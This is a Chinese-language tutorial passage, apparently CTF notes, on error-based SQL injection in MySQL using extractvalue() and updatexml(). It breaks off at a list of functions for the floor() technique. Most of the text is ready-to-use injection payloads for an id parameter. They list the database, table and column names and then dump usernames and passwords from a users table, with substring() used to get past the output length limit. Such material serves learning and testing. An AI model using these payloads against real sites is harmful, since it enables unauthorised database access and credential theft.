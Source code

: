 
在题目中，获得库名

?id=2' union select 1,extractvalue(1,concat(0x7e,(select database()))),3--+

简写为

?id=2' and 1=extractvalue(1,concat(0x7e,(select database())))--+


获得表名

?id=2' and 1=extractvalue(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database())))--+


获得列名

?id=2' and 1=extractvalue(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users')))--+


获得结果

?id=2' and 1=extractvalue(1,concat(0x7e,(select group_concat(username,'~',password)from users)))--+

但是extractvalue()回显默认只有32个字符串


需要使用函数substring()解决三个参数分别为：字符串、从第几个开始返回、返回几个
```
select substring(123456,1,3)
返回 123

select substring(123456,4,3)
返回 456
```


将substring()加入(或者substr())，不断修改第二个参数的值去搜索结果
?id=2' and 1=extractvalue(1,concat(0x7e,substring((select group_concat(username,'~',password)from users),1,30)))--+

#### updatexml() 
```
updatexml(xml_document,xpath_string,new_value)
```
第一个参数为 xml文档对象名称

第二个参数为 路径（主要作用）

第三个参数为 替换查找到的符合条件的数据


报错原理同extractvalue()，输入错误的第二个参数
?id=1" and 1=updatexml(1,concat(0x7e,(select database())),3)--+


其它流程同extractvalue

#### floor()
涉及函数：
```
rand()
floor()
concat_ws()
group by
as
count()
limit
```
